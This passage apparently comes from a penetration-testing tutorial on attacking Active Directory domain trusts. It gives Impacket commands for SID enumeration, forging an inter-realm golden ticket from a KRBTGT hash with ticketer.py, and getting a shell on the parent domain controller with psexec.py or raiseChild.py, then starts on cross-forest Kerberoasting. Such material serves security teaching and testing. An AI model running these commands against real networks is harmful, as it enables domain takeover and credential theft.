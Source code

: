 Now we can use [lookupsid.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/lookupsid.py) to perform SID brute forcing to find the SID of the child domain. The tool will give us back the SID for the domain and the RIDs for each user and group that could be used to create their SID in the format **DOMAIN_SID-RID**:
```console
zero@pio$ lookupsid.py <CHILD DOMAIN>/<USER>@<IP> 
```

We can filter out the noise by piping the command output to grep and looking for just the domain SID:
```console
zero@pio$ lookupsid.py <CHILD DOMAIN>.local/<USER>@<IP> | grep "Domain SID"
```

Now we can rerun the command targeting the parent domain to get the RID of the Enterprise Admin group:
```console
zero@pio$ lookupsid.py <CHILD DOMAIN>.local/<USER>@<IP> | grep -B12 "Enterprise Admins"
```

We have now all the data require to launch the attack. We can use [ticketer.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/ticketer.py) to execute the attack:
```console
zero@pio$ ticketer.py -nthash <KRBTGT HASH> -domain <CHILD DOMAIN>.LOCAL -domain-sid <CHILD DOMAIN SID> -extra-sid <PARENT DOMAIN SID> hacker
```

The ticket will be saved down to our system as a credential cache (ccache) file. Set the **KRB5CCNAME** environment variable:
```console
zero@pio$ export KRB5CCNAME=hacker.ccache 
```

We will use [psexec.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/psexec.py) to authenticate to de DC:
```console
zero@pio$ psexec.py <CHILD DOMAIN>/hacker@<DC COMPUTER NAME>.<PARENT DOMAIN>.local -k -no-pass -target-ip <DC IP>
```

Impacket comes with [raiseChild.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/raiseChild.py), which will automatically escalate privileges. This will obtain everything by they own and execute it:
```console
zero@pio$ raiseChild.py -target-exec <DC IP> <CHILD DOMAIN>.LOCAL/<USER>
```

# Attacking Domain Trust Cross-Forest 

## From Windows 

Kerberos attacks (Kerberoasting or ASREPRoasting) can be performed across trust, depending on the trust direction. We can utilize PowerView to enumerate accounts in the target domain with SPNs associated to them:
```console
PS C:\zeropio> Get-DomainUser -SPN -Domain <DOMAIN> | select SamAccountName
```
